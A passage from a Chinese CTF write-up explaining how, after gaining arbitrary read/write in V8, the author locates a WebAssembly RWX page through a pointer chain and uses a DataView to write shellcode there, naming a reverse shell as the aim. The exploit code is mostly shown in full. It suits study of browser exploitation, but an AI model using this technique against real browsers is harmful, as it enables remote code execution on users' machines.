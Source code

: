 #### 获取 RWX 权限的内存空间并写入 shellcode

其实任意读写后就有很多办法可以利用了，在这道题中甚至可以去使用非常 "CTF" 的办法——大量 leak memory，找到 libc 基址，改 free_hook 实现 getshell，但是这很不 RealWorld：很难会遇到有人给你开一个 developer shell 来打的情况，因此写入 shellcode 是自由度更大的利用办法，可以实现：

- ~~弹计算器~~（本来这道题有这样的打算：patch 到 chromium 上远程运行选手上传的文件，录屏为 GIF 返回给选手，但后面该计划夭折了~~时间很仓促，出题人经验也不是很足，太麻烦了www~~）

- 执行反弹 shell，这也是最接近实际情况的利用

V8 中有对于 wasm 的支持，因此有任意读写的能力后可以通过写 wasm 并覆盖为 shellcode 的办法来实现 RWX 内存的获取与利用：

先在 [wasdk.github.io](https://wasdk.github.io/WasmFiddle/) 上随便生成一段 wasm code，得到测试 demo：

```js
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;
var f_addr = getAddr(f);
```

进入 gdb 中分析 wasm 代码存储的地址，发现如下指针引用关系：

```
func 
     -> shared_info
                    -> data 
                            -> instance
                                        -> instance + 0x80: rwx segments
```

因此有如下构造：

```js
var shared_info_addr = readAddr(f_addr + 0x18n);
var wasm_exported_func_data_addr = readAddr(shared_info_addr + 0x8n);
var wasm_instance_addr = readAddr(wasm_exported_func_data_addr + 0x10n);
var rwx_page_addr = readAddr(wasm_instance_addr + 0x80n);
log("leak rwx_page_addr: " + hex(rwx_page_addr));
```

现在已经获得了 RWX 段，shellcode 生成比较常规，直接拿 pwntools 生成就行，可以参考 [src/gen_shellcode.py](src/gen_shellcode.py)。

但是上面使用 FloatArray 进行任意写的时候, 在目标地址高位是 0x7f 等情况下, 会出现低 20 位被置零的现象, 可以通过 DataView 的利用来解决:

```js
var data_buf = new ArrayBuffer(0x200);
var data_view = new DataView(data_buf);
var buf_backing_store_addr = getAddr(data_buf) + 0x20n;

writeAddr(buf_backing_store_addr, rwx_page_addr);
```

---------
